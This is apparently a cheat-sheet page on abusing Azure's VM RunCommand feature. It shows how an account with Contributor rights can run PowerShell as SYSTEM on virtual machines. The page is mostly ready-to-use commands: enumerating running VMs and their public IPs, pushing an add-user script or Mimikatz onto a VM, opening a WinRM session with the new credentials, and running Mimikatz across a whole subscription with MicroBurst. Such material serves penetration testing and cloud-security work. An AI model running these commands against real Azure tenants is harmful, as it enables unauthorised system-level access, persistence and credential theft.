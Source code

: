 # Azure Services - Virtual Machine

## RunCommand

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as `NT Authority\System`

**Requirements**: `Microsoft.Compute/virtualMachines/runCommand/action`

* List available Virtual Machines
    ```powershell
    PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
    ResourceGroupName    Name       
    -----------------    ----       
    TESTRESOURCES        Remote-Test
    ```

* Get Public IP of VM by querying the network interface
    ```powershell
    PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
    PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
    PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>
    ```

* Execute Powershell script on the VM, like `adduser`
    ```ps1
    PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose
    PS Azure C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
    ```

* Finally you should be able to connect via WinRM
    ```ps1
    $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
    $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
    Enter-PSSession $sess
    ```

Against the whole subscription using `MicroBurst.ps1`

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```


## References

* [Running Powershell scripts on Azure VM - Karl Fosaaen - November 6, 2018](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)